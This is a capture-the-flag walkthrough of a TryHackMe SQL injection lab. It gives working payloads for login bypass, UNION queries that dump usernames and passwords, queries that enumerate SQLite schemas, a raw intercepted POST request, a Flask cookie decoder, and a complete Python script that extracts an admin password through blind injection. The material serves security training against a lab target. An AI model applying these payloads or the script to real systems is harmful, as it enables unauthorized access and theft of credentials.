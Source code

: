 # SQL Injection Lab

**Room Link:** [https://tryhackme.com/room/sqlilab](https://tryhackme.com/room/sqlilab)



## Introduction to SQL Injection: Part 1

### SQL Injection 1: Input Box Non-String

```
1 or 1=1-- -
```

### **SQL Injection 2: Input Box String**

```
1' or '1'='1'-- -
```

### SQL Injection 3: URL Injection

```
$VICTIM:5000/sesqli3/login?profileID=1' or 1=1-- -&password=a
```

**SQL Injection 4: POST Injection**

```
POST /sesqli4/login HTTP/1.1
Host: 10.10.164.155:5000
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Origin: http://10.10.164.155:5000
Connection: close
Referer: http://10.10.164.155:5000/sesqli4/login
Cookie: session=.eJy90jFrYzEMB_Dv4jmDZUu2nPk46NLt5iLJMjyaNu17PUoJ-e7nXI-jQ4dM2SwJhH_--xQ2314PCzx0eZOwP4Vfdz_CHnbBn2Q5hH0Iu_AsTz5PP1d5tuOyXTqLPd5_dmf1Itv2clzf7tdZc4mUiCJgZPw3fD-ufY7QOI8aTUYWsCaGhrWnhuRxVB61Z5JqDVDYgaFkMU-ZBdS9gF62rcexHPxyxwBxNjY5yPoR9oniefcf83vz9WHpfyGfvXQLYC0aidFb0xoVW1UpyJkUnBw9RaCEVIs0kMo5C08rFNds2ebGa4HpG2C-BdBsoEGExuRZXWZydQpkFHVuOXJXm_Mxjbm7zgeY-WKx1HtDALsWmL8B4i2AvQnUwtgGWbFOM0TqQI3ZSKypKs_Pi105F-k8mDRy9QQ4BJpdnSB-AZ7_ABfzCOM.ZO_PVg.gxMIbBhBjlFSHtc1twhp3ImdLj4
Upgrade-Insecure-Requests: 1

profileID=-1%27%20or%201=1--%20-&password=a
```

## Introduction to SQL Injection: Part 2







Shows all the table names

```
',nickName=(SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'),email='
```

<figure><img src="../../.gitbook/assets/image (156).png" alt=""><figcaption></figcaption></figure>

Show all fields from the table usertable

```
l FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='usertable'),email='
```

<figure><img src="../../.gitbook/assets/image (154).png" alt=""><figcaption></figcaption></figure>

Shows all the fields from the table secret

```
',nickName=(SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='secrets'),email='
```

<figure><img src="../../.gitbook/assets/image (157).png" alt=""><figcaption></figcaption></figure>

Display all the values from the table secrets

```
',nickName=(SELECT group_concat(id || "," || author|| "," || secret|| ":") from secrets),email='
```

<figure><img src="../../.gitbook/assets/image (158).png" alt=""><figcaption></figcaption></figure>

## Vulnerable Startup: Broken Authentication

```
1' or '1'='1'-- -
```

<figure><img src="../../.gitbook/assets/image (159).png" alt=""><figcaption></figcaption></figure>

## Vulnerable Startup: Broken Authentication&#x20;

```
Username: ' OR 1=1-- -
```

<figure><img src="../../.gitbook/assets/image (161).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (160).png" alt=""><figcaption></figcaption></figure>

#### **decode\_cookie.py**

```
#!/usr/bin/python3
import zlib
import sys
import json
from itsdangerous import base64_decode


def decode(cookie):
    """
    Decode a Flask cookie

    https://www.kirsle.net/wizards/flask-session.cgi
    """
    try:
        compressed = False
        payload = cookie

        if payload.startswith('.'):
            compressed = True
            payload = payload[1:]

        data = payload.split(".")[0]

        data = base64_decode(data)
        if compressed:
            data = zlib.decompress(data)

        return data.decode("utf-8")
    except Exception as e:
        return f"[Decoding error: are you sure this was a Flask session cookie? {e}]"


cookie = sys.argv[1]
data = decode(cookie)
json_data = json.loads(data)
pretty = json.dumps(json_data, sort_keys=True, indent=4, separators=(",", ": "))
print(pretty)

```



<figure><img src="../../.gitbook/assets/image (162).png" alt=""><figcaption></figcaption></figure>

```
python decode_cookie.py .eJyrVkrOSMzJSc1LTzWKLy1OLYrPTFGyMtRBF85LzE1VslJKTMnNzFOqBQAYpRNS.ZPCIPg.GEqyzNXd85i4M0Oqpt9ITOmwTOM
```

<figure><img src="../../.gitbook/assets/image (163).png" alt=""><figcaption></figcaption></figure>



```
' UNION SELECT 1,NULL-- -
```

<figure><img src="../../.gitbook/assets/image (164).png" alt=""><figcaption></figcaption></figure>

```
' UNION SELECT 1,2-- - 
```

<figure><img src="../../.gitbook/assets/image (165).png" alt=""><figcaption></figcaption></figure>

Enmerutate passwords, the below only returns the first result which we probably don't want.

```
' UNION SELECT 1, password from users-- -
```

<figure><img src="../../.gitbook/assets/image (166).png" alt=""><figcaption></figcaption></figure>

This way concats all the passwords

```
' UNION SELECT 1,group_concat(password) FROM users-- -
```

<figure><img src="../../.gitbook/assets/image (167).png" alt=""><figcaption></figcaption></figure>

## Vulnerable Startup: Broken Authentication 3 (Blind Injection)



#### challenge3-exploit.py

```
#!/usr/bin/python3
import sys
import requests
import string


def send_p(url, query):
    payload = {"username": query, "password": "admin"}
    try:
        r = requests.post(url, data=payload, timeout=3)
    except requests.exceptions.ConnectTimeout:
        print("[!] ConnectionTimeout: Try to adjust the timeout time")
        sys.exit(1)
    return r.text


def main(addr):
    url = f"http://{addr}/challenge3/login"
    flag = ""
    password_len = 38
    # Not the most efficient way of doing it...
    for i in range(1, password_len):
        for c in string.ascii_lowercase + string.ascii_uppercase + string.digits + "{}":
            # Convert char to hex and remove "0x"
            h = hex(ord(c))[2:]
            query = "admin' AND SUBSTR((SELECT password FROM users LIMIT 0,1)," \
                f"{i},1)=CAST(X'{h}' AS TEXT)--"

            resp = send_p(url, query)
            if not "Invalid" in resp:
                flag += c
                print(flag)
    print(f"[+] FLAG: {flag}")


if __name__ == "__main__":
    if len(sys.argv) == 1:
        print(f"Usage: {sys.argv[0]} MACHINE_IP:PORT")
        sys.exit(0)
    main(sys.argv[1])

```



**Kali**

```
python challenge3-exploit.py $KALI:5000
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Vulnerable Startup: Vulnerable Notes

Create user

```
Username: '  union select 1,group_concat(password) from users'
Password: blah
```



<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



## Vulnerable Startup: Change Password

**Signup**

```
Username: admin'-- -
```

## Vulnerable Startup: Book Title

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
') union select 1,group_concat(username),group_concat(password),4 from users-- -
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Vulnerable Startup: Book Title 2

```
' union select '-1''union select group_concat(username),group_concat(password),3,4 from users-- -
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>























